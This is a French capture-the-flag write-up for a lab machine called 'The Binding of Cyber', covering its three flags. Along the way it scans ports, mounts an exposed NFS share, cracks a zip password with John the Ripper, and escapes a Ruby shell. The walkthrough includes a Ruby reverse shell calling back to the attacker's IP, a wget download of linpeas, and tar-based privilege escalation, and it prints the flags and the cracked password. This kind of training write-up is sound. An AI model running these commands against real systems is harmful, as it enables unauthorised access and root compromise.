

# The Binding of Cyber 🔳🔳🔳

## Récupération du `flag.txt`

**N'oubliez pas de changer _target_ par l'ip de la machine cible !**

> EPI{4ch13V3M3N7_7R0Phy_90lD3n_90d}

- Création du script `telnet.sh`

```bash
#!/bin/bash
for ((port=50; port <= 65; port++)); do
    (echo -e "\n"; sleep 1) | telnet <target> $port  2>/dev/null | sed -n '/^550 /p' | cut -d " " -f 3
done
```

- Lancement du script

```bash
chmod +x telnet.sh
bash telnet.sh
```

- La sortie attendue est la suivante


- On curl le port `23456` grâce à telnet

```bash
telnet <target> 23456
```


On en déduit qu'il sagit d'un partage `nfs`.

- Récupération des partages `nfs` de la cible

```bash
showmount -e <target>
```



- On monte le partage sur notre machine

```bash
mkdir /mnt/nfs
mount -t nfs <target>:/home/nfs /mnt/nfs -nolock
```

- On récupère le fichier `zip` nommé `chest.zip`

```bash
cp /mnt/nfs/chest.zip .
```

- Récupération du contenu du fichier

Les fichiers archivés sont chiffrés il faut alors procédemment à un bruteforce sur le fichier afin de retrouver le mot de passe.

Pour ma part j'ai utilisé [`John the Ripper`](https://www.openwall.com/john/) couplé à une `wordlist` présente dans les outils de la machine virtuelle.

> isaaciscrazy

```bash
sudo apt-get install john
zip2john chest.zip > zip_hash.txt
john --wordlist=/root/Desktop/Tools/wordlists/rockyou.txt zip_hash.txt
```


- Récupération du flag

```bash
unzip chest.zip # Put the password `isaaciscrazy`
cat home/isaac/.ssh/flag.txt
```

> `EPI{4ch13V3M3N7_7R0Phy_90lD3n_90d}`.

## Récupération du `user.txt`

> EPI{4Ch13V3m3N7_7r0pHy_Pl471NUm_90D}

On regarde le contenu du fichier `hint.txt` provenant du fichier zip.

```
cat home/isaac/.ssh/hint.txt
5000-6500
```

En faisant un telnet sur les ports dans la range `5000-6500`, on observe que le port `5555` renvoie quelque chose relatif à une connexion `ssh`. On utilise alors la clé rsa privée provenant du fichier zip pour se connecter au port 5555, comme ci-dessous.

```bash
ssh -p 5555 -i id_rsa isaac@<target>
```

On atterit dans un terminal ruby, de ce fait on peut utiliser la méthode `exec`.

```
exec('ls')
```

On voit que le fichier `user.txt` est dans le dossier actuel.

```
exec ('cat user.txt)
```

The output will be `EPI{4Ch13V3m3N7_7r0pHy_Pl471NUm_90D}`.

## Récupération du `root.txt`

> EPI{4Ch13v3m3n7_7R0pHy_7H3_r44l_pl471Num_90d}

On a accès à la machine cible mais que dans un terminal Ruby, donc tout d'abord on essaie de trouver comment sortir du shell ruby

Pour cela on pense au reverse shell

Sur la machine cible :

```require 'socket'
host = 'YOUR_LOCAL_IP'  # Replace with your local machine's IP address
port = 4444
s = TCPSocket.new(host, port)
while (cmd = s.gets)
  IO.popen(cmd, 'r') do |io|
    s.print io.read
  end
end
```

Sur sa machine locale:
`nc -lvnp 4444`

(plus rapide avec exec('/bin/bash') )


Une fois la connexion établie on cherche la suite

On pense alors à linpeas pour chercher les vulnérabilités qu'on va télécharger sur la VM pour ça on le télécharge depuis sa machine distant avec

dans /tmp pour avoir les droits d'écriture
`wget http://[IP]:1234/linpeas.sh`

et sur sa machine locale

`python3 -m http.server 1234`


Puis en checkant dans linpeas on trouve une faille intéressante avec tar qui a tout les droits


Donc avec ça on archive donc /root avec tar


Puis on le décompresse avec encore tar
Enfin plus qu'à faire `cat /root/root.txt`.


